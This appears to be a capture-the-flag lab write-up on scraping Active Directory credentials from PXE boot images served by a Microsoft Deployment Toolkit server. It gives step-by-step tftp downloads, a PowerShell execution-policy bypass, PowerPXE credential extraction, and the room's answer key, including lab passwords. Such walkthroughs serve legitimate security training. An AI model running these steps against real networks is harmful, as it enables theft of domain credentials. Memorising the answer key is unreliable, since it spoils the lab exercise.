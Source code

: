 * PXE (Preboot Execution Environment) boot is used by organizations to allow new devices that are connected to network to load & install OS directly over a network connection.

* According to the given task, we can exploit PXE boot image by performing password scraping attacks to recover AD creds used during install.

* For this task, we are given the IP of MDT server (THMMDT), and names of the BCD files from given website.

```shell
#given bcd file is x64{8342B234-6535-47C5-9CCC-0E3890173949}.bcd

#we can SSH into THMJMP1 with password 'Password1@'
ssh thm@THMJMP1.za.tryhackme.com

#follow given instructions
#copy powerpxe repo to new folder
cd Documents

mkdir sv

copy C:\powerexe sv\

cd sv

#we need to use tftp and download bcd file
#to read config of MDT server
tftp -i 10.200.26.202 GET "\Tmp\x64{8342B234-6535-47C5-9CCC-0E3890173949}.bcd" conf.bcd

#now we can use powerpxe to read the bcd file contents
powershell -executionpolicy bypass

Import-Module .\PowerPXE.ps1

$BCDFile = "conf.bcd"

Get-WimFile -bcdFile $BCDFile
#this gives us PXE boot image location

#we can use tftp again to download wim image
tftp -i 10.200.26.202 GET "\Boot\x64\Images\LiteTouchPE_x64.wim" pxeboot.wim
#this transfer will take time due to the image file size

#after recovering PXE boot image, we can exfiltrate stored creds
Get-FindCredentials -WimFile pxeboot.wim
#gives account and password deets
```

```markdown
1. What Microsoft tool is used to create and host PXE Boot images in organisations? - Microsoft Deployment Toolkit

2. What network protocol is used for recovery of files from the MDT server? - tftp

3. What is the username associated with the account that was stored in the PXE Boot image? - svcMDT

4. What is the password associated with the account that was stored in the PXE Boot image? - PXEBootSecure1@
```
